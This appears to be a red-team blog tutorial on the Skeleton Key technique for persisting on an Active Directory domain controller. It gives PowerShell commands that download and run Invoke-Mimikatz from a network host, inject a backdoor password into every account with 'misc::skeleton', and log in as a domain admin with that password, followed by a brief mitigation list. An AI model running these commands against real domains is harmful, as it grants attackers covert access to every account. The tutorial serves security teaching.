 ```yaml
---
title: "Domain Persistence With Skeleton Key technique"
date: 2024-02-14 00:00:00 +0000
categories: 
  - Persistence Domain 
  - Active Directory
  - RedTeam
---
```



In this article, I will explain the third technique for establishing persistence on the Domain Controller
# Skeleton Key Attack
## What is the Skeleton Key technique

The Skeleton Key technique involves injecting a backdoor password into the authentication process of Microsoft Windows Active Directory domain controllers. This backdoor password, typically generated by tools like Mimikatz, allows an attacker to bypass normal authentication mechanisms, effectively granting them access to any account within the Active Directory. The original passwords of the affected accounts remain intact and functional, while the backdoor password provides an additional means of unauthorized access for the attacker.
## Or In short
The idea behind this technique is to convert all passwords of users embedded in the Active Directory into another password, which is Mimikatz, while keeping their original passwords active.

### Prerequisites

	 - attacker having obtained Domain Admin rights. 
	 - Mimikatz is then executed on a Domain Controller.
	 - rebooting a Domain Controller will eliminate the malware.

I will do this attack from a Windows machine 

# Exploitation

we need upload Mimikatz in windows machine you can use Mimikatz.exe or Mimikatz.ps1 but i use Mimikatz.ps1

[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-1.png)](https://r00tven0m.github.io/)

Now I will execute the Mimikatz tool using this command:

```powershell
 iex(New-Object Net.WebClient).DownloadString('http://192.168.56.1/Invoke-Mimikatz.ps1')
```
[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-2.png)](https://r00tven0m.github.io/)
After that, we execute  this command:

```powershell
Invoke-Mimikatz -Command '"misc::skeleton"'
```
[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-3.png)](https://r00tven0m.github.io/)

Now, a password has been added to each user, which is "mimikatz", while ensuring the effectiveness of their previous passwords.
Yes, with the Skeleton Key technique implemented, you can access a PowerShell session for the user `newadmin` for example, who is a member of the Domain Admins group, using the "mimikatz" password.

[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-4.png)](https://r00tven0m.github.io/)

[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-5.png)](https://r00tven0m.github.io/)

[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-6.png)](https://r00tven0m.github.io/)

[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-7.png)](https://r00tven0m.github.io/)

If the Skeleton Key technique has been successfully applied and a backdoor password like `mimikatz` has been added to all user accounts in the Active Directory, including `newadmin`, then you can indeed use `runas` to execute a PowerShell session with the privileges of the `newadmin` user or any other user in the Active Directory.

Here's an example command to run a PowerShell session with the newadmin user's privileges:

```powershell
runas /user:cbank\newadmin "powershell.exe"
```

# Another Way if you need get ncat session 

[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-8.png)](https://r00tven0m.github.io/)

# Some Mitigating Skeleton Key

1- `Monitor and Analyze Active Directory Logs`: Monitor Active Directory logs for suspicious activities, such as unusual login attempts, privilege escalations, or changes to user accounts. Analyzing these logs can help detect and respond to potential Skeleton Key attacks.

2- `Use Endpoint Detection and Response (EDR) Solutions`: Deploy endpoint detection and response solutions that can detect and respond to suspicious activities on endpoints, including attempts to execute Mimikatz or other malicious tools.

3 - Run lsass.exe as a protected process, it forces an attacker to load a kernel mode drive


We have reached the  end of the article.